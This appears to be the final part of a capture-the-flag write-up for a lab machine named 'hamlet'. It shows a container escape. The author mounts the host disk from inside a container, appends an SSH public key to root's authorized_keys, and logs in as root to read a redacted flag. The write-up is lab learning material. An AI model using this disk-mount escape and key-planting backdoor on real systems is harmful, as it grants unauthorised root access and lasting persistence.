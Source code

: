 Mount /dev/dm-0 to see what's inside

```bash
mkdir /mnt/host
mount /dev/dm-0 /mnt/host
ls -l /mnt/host

total 4015216
drwxr-xr-x  2 root root       4096 Sep 15 11:24 bin
drwxr-xr-x  2 root root       4096 Sep 15 11:14 boot
drwxr-xr-x  2 root root       4096 Sep 15 11:15 cdrom
drwxr-xr-x  4 root root       4096 Aug  6  2020 dev
drwxr-xr-x 99 root root       4096 Sep 16 06:43 etc
drwxr-xr-x  5 root root       4096 Sep 15 14:41 home
lrwxrwxrwx  1 root root         34 Sep 15 11:16 initrd.img -> boot/initrd.img-4.15.0-156-generic
lrwxrwxrwx  1 root root         34 Sep 15 11:16 initrd.img.old -> boot/initrd.img-4.15.0-156-generic
drwxr-xr-x 23 root root       4096 Sep 15 11:39 lib
drwxr-xr-x  2 root root       4096 Aug  6  2020 lib64
drwx------  2 root root      16384 Sep 15 11:14 lost+found
drwxr-xr-x  2 root root       4096 Aug  6  2020 media
drwxr-xr-x  3 root root       4096 Sep 15 14:43 mnt
drwxr-xr-x  5 root root       4096 Sep 15 14:46 opt
drwxr-xr-x  2 root root       4096 Apr 24  2018 proc
drwx------  5 root root       4096 Sep 15 14:49 root
drwxr-xr-x 13 root root       4096 Aug  6  2020 run
drwxr-xr-x  2 root root      12288 Sep 15 11:39 sbin
drwxr-xr-x  2 root root       4096 Sep 15 11:31 snap
drwxr-xr-x  4 root root       4096 Sep 15 14:45 srv
-rw-------  1 root root 4111466496 Sep 15 11:16 swap.img
drwxr-xr-x  2 root root       4096 Apr 24  2018 sys
drwxrwxrwt  9 root root       4096 Jan 24 13:28 tmp
drwxr-xr-x 10 root root       4096 Aug  6  2020 usr
drwxr-xr-x 14 root root       4096 Sep 15 14:42 var
lrwxrwxrwx  1 root root         31 Sep 15 11:16 vmlinuz -> boot/vmlinuz-4.15.0-156-generic
lrwxrwxrwx  1 root root         31 Sep 15 11:16 vmlinuz.old -> boot/vmlinuz-4.15.0-156-generic
```

Now all we have to do is to add a public key to the root's authorized_keys :

```bash
cat 'ssh-rsa AAAA[....]=' >> /mnt/host/root/.ssh/authorized_keys

$ ssh root@$ip -i ./id_rsa
root@hamlet:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
hamlet

root@hamlet:~# cat /root/flag
THM{6_redacted}

```

Thanks for reading <3

h3x

